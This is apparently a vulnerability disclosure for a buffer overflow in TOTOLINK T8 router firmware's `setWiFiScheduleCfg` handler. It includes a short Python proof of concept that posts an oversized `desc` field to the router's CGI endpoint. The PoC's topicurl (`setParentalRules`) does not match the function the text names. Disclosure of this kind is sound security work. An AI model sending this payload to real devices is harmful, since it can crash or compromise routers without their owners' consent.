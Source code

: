 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setWiFiScheduleCfg` function. The `v15` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902122636335](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902122636335.png)

![image-20240902122623475](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902122623475.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setParentalRules",
"addEffect":"1",
"enable":"1",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
